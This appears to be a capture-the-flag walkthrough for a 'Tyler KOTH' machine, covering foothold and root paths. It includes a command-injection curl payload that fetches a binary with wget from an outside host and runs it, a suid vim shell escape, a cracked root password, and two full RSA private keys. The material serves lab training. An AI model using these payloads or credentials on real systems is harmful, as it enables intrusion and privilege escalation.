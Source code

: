 # Tyler KOTH machine

Paths to foothold:

- under a samba share is a text file `alert.txt` with a password in it. these are the ssh'able creds of the narrator user: `narrator:X8JEETQmf3hkS65f`
- On port 8080 is an instance of LibreNMS, with the default credentials admin:admin. This can be exploited to get a reverse shell with https://www.exploit-db.com/exploits/47044
- On port 80 is a standard website, that has two subdirectories: upload and betatest
  - upload can have its code examined by viewing index.bak - it appears to be mildly restricted, with a randomised output
  - betatest is straight command execution, for any post with the following body: `submit=submit&user=;id`, the latter param being command injection into a system call.

  ```
  curl http://10.10.155.41/betatest/checkuser.php -d "submit=submit&user=;wget+10.10.53.33:1234/client+-O+/tmp/c+%26%26+chmod+777+/tmp/c+%26%26+/tmp/c"
  ```

Paths to root:

- vim has the suid bit set. `/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'` will prompt for the terminal, entering `xterm`, then give a root shell.
- there is a shadow.bak file under /var/backups
  - cracking this with -m 1800 reveals the root password: `iamgod$08`

## Flags

- /root/root.txt
- /home/narrator/user.txt
- /home/tdurden/user.txt
- /srv/public/flag.txt
- /centos_chroot/root/flag.txt
- /var/www/html/betatest/checkuser.php (thanks to mug3njutsu on discord for this)

## Keys

TDurden's id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvtKk2o/D5bl3eKcmDTBjy2z9mU8IeCPIVQjZ5M2i+6F122aJ
VbXoTgmsMvgzoJ3HCBB1KjIBLzhBLPtrv/lKVsS+7dUEp8i7zKzCgJy1wUA869ri
cey44ZYvML+5yF/NxHKc1OzNm1YhhqV4cTgEGulHe6UVV3pIe9amSNtiO2YPzTz0
s7DG5tAkKyfUPidpLoLvxCuFULEdQjjLPu7LHdIJB0PD6KCx69fseE63/g0W/x9N
oY5dU2mefPQosZUEDVHx8y41557hO6rJXF/HOjnu7L+3vNPDPO2aJHYa4n1ma38A
sWmeeA+sVmHUknGMzCqi4dB0MTtyqJInEYEycQIDAQABAoIBACrKQX1hT6Rr+oZr
tPSwLTCouBVwy41lOL8YxQOxuSKEClGwpIs7x2P4d0zWq30Q5FjCmANmQy27h6H2
nyrlU+4xID9kzS5yrOows0zz1y4GoaKh6rVxR+QOMXbVB2wPT60FpnV4xIJYxhvT
bza0QPdn6EeptSdwnGBoudEMoPKAhVCvPx//oGK7FNH/OYp7iLIrgIi5cb0xCKUC
X/ZuifgBoYKim1hnLRnLVJPIn6ZZ3ZUYgaEo2TnMe5adtyEbPq1E/HwuHM4JAINu
QHoWEWPaLUKaekdV18sbiF6i1Bpc+V8CbesYZBXvvDs8uI6RIzXUSXD5ul7MZ4oK
89RxwgECgYEA40O7hIpZdUiuavnUr9LWknxK8xhQzqoffi8nVibJGmS7u/qDGBWO
ceC0iGpFxnAzpFYDAtL92LOD2sb83bLCHwhWVCctlE568D5P2XE84S7IWbRHLoEs
bBLaaHHI90XAGrhRvTFKMQHEl9tRykpnq6Ip9HqgB5KDHXGed45J9UkCgYEA1vNW
hPBdlU3w0RLf1PSiTrkdCzrwsGdAjYyswStnmXnBi4wNxWnzoo1uHWp6UiWVX3KD
/xtOsx+6eEOrhYvP+MyeWwY1bj4J6CIHHXuJRBPh4sJwgfRwlo43FnxFaMhW8S/5
nZGSaXMpLacVRQh2RNKiWU2hqe2eKZ9tPhYAW+kCgYBCLLfOaSaRUx+OgL6gj8jx
EIYWcO8erkTLTlmq6VJHgCt2GgTQH37BxAdtbVxx4rv2zyDDUsKdte/f5W898s45
kQjqKhpIg+2iRNKlYyax/xhRnn/Xl79inL7CCNfWwJWmciNC7rZGvNgMy8zuFWpI
fMiwqoAslEnfafUVpPX+GQKBgQDKugIVq2V31WSUq0pz3K3ftXMRDmvG0/rsBYtB
PKCe/VhvNo4ebIkd/GmoUK5BH7U7qhOX3Ldi9T+3AYuZjn19V+7aRobKDLTnPICd
a8/QZzgZ1+yohFRTipmmGVqVMq3dF7RCyfLehYCG0BidXRe+XTJFK5SXYcZT10r+
zV1VUQKBgDupvxWOhqf0md/nJ+oAC6WZWcFVp8HVYH2JVk3r+dTyTBu5AKcMVR/p
eu81pmX0Mb9/r715wKd7eDpymWjXiuo88EONbUlRErjdJQ0WuJkw9t//znCRmPBH
FLWlF0hgshMSf7zonVIdhrp23YiFK3ALxoxqGXRJOtfKQi3FDLwM
-----END RSA PRIVATE KEY-----
```

Narrator's id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1K2sm2qTl2aSKcmkCrUWXS9e090v6UvxF/W9Cpm/0ycPcmij
zvLltqIyM3j4ZtmFfpAUQ+Xg7YvE3SRRBZVw2G+x+QbIM6JgzkC5o5uD02FJGvOT
ouCiDb9QOtRCMNQ6r6H7QXNufX+yJ4L3bTi7UnhBtSn5oCjhfUhBkHxfYQt672gm
z4vjn2Ndtlov0poX5eaNeyyMLiohzDQv2I5dK+OvV+H50ZLD3esnRS7PsPG4k3lf
kB4lQp7NKrMF/Ye6c3CY9gGL8pAeDMTDYpBNDfLcBgz/cSLZUg4SYc6F0y/EKybT
1F3z6qK3spAuurOVQvSDqw4+1ZSPQSP23WtXyQIDAQABAoIBABh2SW4u2f8GCzXH
PZkFrybUtgGEZWheFcL9vtqjSI8O5RXxtzWsdoOFMGT/OwMJbfNauxn8LNzlwKT2
8mLEB5C9eCj+gLR/rsbKZw/MaWM8w13YOlj3oWwXXzEFDP/0yTM+XFnw3vqMX39v
7umfJtybfGNMCqxDR3xTfUcTJx1QMN8GjeFgNAAWYM7i7E83QfWfwWo/rcaNx1KN
FjJSmn0Qd7lcTLdgA2oHPAe6BvEq2P3EDY1ecWEvsMIbmM/cZsJLSdi/9HlqkRF8
xsrlB9Cz019o3mMog8356ibM2TOPik+cWumzLqu09ddza4VEfxT30xsXYnaYKDxu
wBPxaUkCgYEA/RQBzDU/Fy3nq1UYCTJMtni9Z6rOLzm3X1uAKNJmKq5mMEERnx6m
MA4YYun3yvkQbG4Mq2Mptm1uw3Yph8wQmKIszNrfNc97CVb0h20S6XSxOD3SXN49
Xut4GiKPMjS9gh/k/56l2j+yy366hOdkiNDj+C0oMBN9k+M5r+++g4sCgYEA1yJD
NQtAl/9K5ePh7pXbXd1PfRggJS69rqnhTm5BTQ8mzO8ldWdNNE+zC5MLl92m8lTv
V4yFoDmb1TU8+x8EY9CEHXnTKkfLB2VDN7Dk4P4iMGhh1U+fWXEOMDDhurYgR6R3
vdyInB3f6IVMfqvYYEe31eddnc3AWjwOZP6a7HsCgYBVwy7sxeqQb1T/4cFYdHw8
peQBuodOx69VmEtxCgPnWNx2Y8aV9qv4wv4Onx0C4q5nIFAY0Gz1TlZn1KY0R7ok
D2lBLrbPpHUccCRDtHnhNVNNLN4Z7JI9lWxI5wdBy0+hRi+zVE7+C/IKNfL9UPDn
0GpA0wS4bhJzSGBnN8aHCwKBgQCObvLMJb0IZU+zUOL+0VzBkorUKaruszmGcJbp
FHpLiKKJwDOuvUwSPEoweZSNYYTsoGsuLa0y3bFcwbi0El8XrrApy8SRE6NKLDMK
piWDCP6dyh4r2mGIGB/qrBJnSbmpdSyKGX6gze62xbpVi3TgmdsO1fXXSqf1lhl5
qE/uDQKBgQDgn76GuDlT7Itk8LEN+hn4Yup97oXpjMHSPrkZC8iRpxOuPYP0EEC1
t1Ywik0g6ceHw8v0cl5XPj7tRs2U6xy/4iQ2/fERjPCZmBZeO3dz0OCZamsEIWtb
tMshFFP1ppXtnVqtYWLYNa9rL3HZlzb8EsVxwpZqnKE9vO+SiuHdTg==
-----END RSA PRIVATE KEY-----
```
